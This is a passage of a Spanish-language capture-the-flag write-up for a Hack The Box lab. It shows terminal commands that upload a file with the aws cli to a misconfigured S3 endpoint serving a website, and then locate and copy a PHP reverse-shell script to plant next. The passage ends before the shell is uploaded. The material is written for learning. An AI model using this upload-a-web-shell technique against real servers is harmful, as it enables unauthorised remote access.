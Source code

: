 ![](/assets/posts/20220810/img17.png)

Especial atención a:

```
aws s3 cp/mv test-file.txt s3://bucket-name
```

Según ésto, podríamos copiar (aka subir) un fichero desde nuestro equipo al bucket. Interesante. Probamos con algo inofensivo para empezar.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ touch a.txt

┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ echo "Hola que tal" > a.txt

┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ cat a.txt
Hola que tal

┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ aws s3 --endpoint=http://s3.thetoppers.htb cp a.txt s3://thetoppers.htb
upload: ./a.txt to s3://thetoppers.htb/a.txt
```

Probamos desde el browser a cargar la URL `http://thetoppers.htb/a.txt`

Funciona. Vamos a por algo más interesante que un txt, una shell reversa por ejemplo.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ locate php-reverse-shell
/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php

┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier1]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .
```
